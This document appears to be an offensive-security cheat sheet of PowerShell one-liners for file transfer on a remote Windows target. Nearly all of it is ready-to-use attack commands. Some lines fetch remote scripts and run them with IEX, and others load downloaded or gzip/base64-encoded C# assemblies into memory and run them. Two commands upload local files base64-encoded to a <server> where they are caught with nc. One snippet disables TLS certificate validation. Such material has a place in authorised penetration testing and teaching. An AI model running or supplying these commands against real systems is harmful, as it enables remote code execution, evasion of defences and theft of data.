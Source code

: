 # pwsh

% powershell, download

#plateform/windows #target/remote #cat/UTILS/FILE_TRANSFERT #tag/powershell 


## file transfert - download on disk (csharp)
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<windows_writable_path>\<dest_file>')
```
## file transfert - proxied download on disk (csharp)
```powershell
$w=New-Object System.Net.WebClient; $w.Proxy=New-Object System.Net.WebProxy("http://<proxy_server>:<proxy_port>",$true); $w.proxy.Credentials = New-Object System.Net.NetworkCredential("<proxy_login>", "<proxy_password>"); $w.DownloadFile('http://<server>/<source_file>','<windows_writable_path>\<dest_file>')
```

## file transfert - download on disk (powershell)
```powershell
Invoke-WebRequest -UseBasicParsing -URI http://<server>/<source_file> -Out <windows_writable_path>\<dest_file>
```

## file transfert - proxied download on disk (powershell)
```powershell
Invoke-WebRequest -UseBasicParsing  -URI http://<server>/<source_file> -Out <windows_writable_path>/<dest_file> -Proxy http://<proxy_server>:<proxy_port> -ProxyCredential (New-Object System.Management.Automation.PSCredential("<proxy_login>", (ConvertTo-SecureString '<proxy_password>' -Asplaintext -force)))
```

## file transfert - download and import script (csharp)
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/<script>') | IEX
```

## file transfert - proxied download and import script (csharp)
```powershell
$w=New-Object System.Net.WebClient; $w.Proxy=New-Object System.Net.WebProxy("http://<proxy_server>:<proxy_port>",$true); $w.proxy.Credentials = New-Object System.Net.NetworkCredential("<proxy_login>", "<proxy_password>"); $w.downloadstring('http://<server>/<script>') | IEX
```

## file transfert - download and import script (powershell)
```powershell
Invoke-WebRequest -UseBasicParsing -URI http://<server>/<script> | IEX
```

## file transfert - proxied download and import script (powershell)
```powershell
Invoke-WebRequest -UseBasicParsing -URI http://<server>/<script> -Proxy http://<proxy_server>:<proxy_port> -ProxyCredential (New-Object System.Management.Automation.PSCredential("<proxy_login>", (ConvertTo-SecureString '<proxy_password>' -Asplaintext -force))) | IEX
```

## file transfert - download csharp into memory (Assembly reflection)
```powershell
$d = (New-Object System.Net.WebClient).DownloadData('http://<server>/<binary>'); $asm = [System.Reflection.Assembly]::Load($d); 
```

## file transfert - download gziped csharp into memory (Assembly reflection)
```powershell
$b64 = (New-Object System.Net.WebClient).DownloadData('http://<server>/<binary>');$c=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String($b64));$d = New-Object IO.Compression.GzipStream($c,[IO.Compression.CoMPressionMode]::DEComPress);$asm = [System.Reflection.Assembly]::Load($d); 
```

## file transfert - run csharp from memory (Assembly reflection) 
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## file transfert - upload base64 (in-memory)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte));Invoke-RestMethod -Uri http://<server>/ -Method POST -Body $b64
```

## file transfert - upload base64 (file creation)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
certutil -encode <infile> <outfile>; $base64str = Get-Content <outfile> && Invoke-RestMethod -Uri http://<server>/ -Method POST -Body $base64str
```


## file transfert - bypass certificat validation
```powershell
 add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```